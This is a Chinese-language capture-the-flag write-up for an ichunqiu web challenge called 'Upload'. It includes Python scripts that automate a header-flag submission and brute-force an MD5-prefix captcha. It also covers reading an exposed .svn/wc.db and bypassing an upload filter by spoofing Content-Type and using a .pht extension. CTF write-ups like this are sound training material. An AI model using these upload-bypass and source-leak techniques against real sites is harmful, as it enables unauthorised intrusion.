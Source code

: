 # Upload

题目内容：来来来，都是套路，贼简单。

打开页面显示：Hi,CTFer!u should be a fast man:)

- 查看页面源码显示：
```html
</br>Hi,CTFer!u should be a fast man:)<!-- Please post the ichunqiu what you find -->
```
- 通过burp suite抓包发现http头部有flag信息，内容是base64加密。解密后并非是flag，结合Please post the ichunqiu what you find提示，应该是把解密的信息赋值给ichunqiu参数并通过post方式提交。但是每次打开页面flag信息都不一样，因此需要写脚本完成。
```python
import base64,requests

def main():
    url = "http://293ff781dd0e48df9281ce5c3c31453af01a7caca9d24df0.changame.ichunqiu.com"
    a = requests.session()
    b = a.get(url)
    key1 = b.headers["flag"]
    print(key1)
    c = base64.b64decode(key1)
    d = str(c).split(':')
    key = base64.b64decode(d[1])
    print(key)
    body = {"ichunqiu":key}
    f = a.post(url,data=body)
    print(f.text)
if __name__ == '__main__':
    main()
```
- 成功获得路径信息。打开地址后发现需要登录和验证码。通过dirmap扫描这个路径未发现有用信息。实际有.svn目录，但没有.svn/entries。但有.svn/wc.db，打开后有username信息，给了一个字符串HEL1OW10rDEvery0n3，要求加密后得出的md5即是用户名。
mac上通过命令
```
md5 -s HEL1OW10rDEvery0n3
```
获得用户名8638d5263ab0d3face193725c23ce095

- 验证码通过脚本获取
```python
import hashlib
def md5(s):
    return hashlib.md5(str(s).encode('utf-8')).hexdigest()
def main(s):
    for i in range(1,99999999):
        if md5(i)[0:6]  == str(s):
            print(i)
            exit(0)
if __name__ == '__main__':
    main("7e4675")
```

- password没有任何提示信息，随意输入1234竟然通过了，看来密码并没有加入判断。
- 获得下一个路径后发现是一个上传页面，提示上传jpg。上传一个php果然不行，通过burpsuite修改Content-Type为image/jpg，并把文件后者改成.pht即通过。


